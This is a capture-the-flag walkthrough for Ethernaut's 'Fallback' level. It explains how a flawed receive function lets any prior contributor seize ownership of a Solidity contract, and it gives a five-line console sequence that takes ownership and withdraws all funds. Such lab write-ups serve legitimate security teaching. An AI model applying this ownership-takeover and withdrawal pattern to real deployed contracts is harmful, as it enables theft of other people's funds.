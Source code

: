 [Level 1. Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

## Concepts

1. The basis of coding logic.
    1. Find which lines of code you can use to crack the level.
    2. In order to access these lines of code, the requirement you’ll need to fulfill.
2. The understanding of `msg.value`.
    1. `msg.value`: number of wei sent with the message.

## Level Target

1. Take ownership of the contract.
2. Withdraw all funds from the contract. (Only `owner` can do so)

## BreakDown & Analysis

1. Two ways to take ownership:
    1. Contribute more eth than `owner` does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, plus the owner already has 1000 ethers of contribution when the contract is built. (unfair, right?)
    2. So the other way to hack the contract is from `receive` function, in order to call `receive`, you’ll need to satisfy two conditions.
        * send some eth when calling receive.
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds:
    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    2. Once you become the owner, it is effortless to withdraw all the funds!

## Detailed Steps (work through the console)

```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm if you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
await contract.owner() === player // check if you're the owner now
await contract.withdraw() // take all the funds out from the contract!!!
```
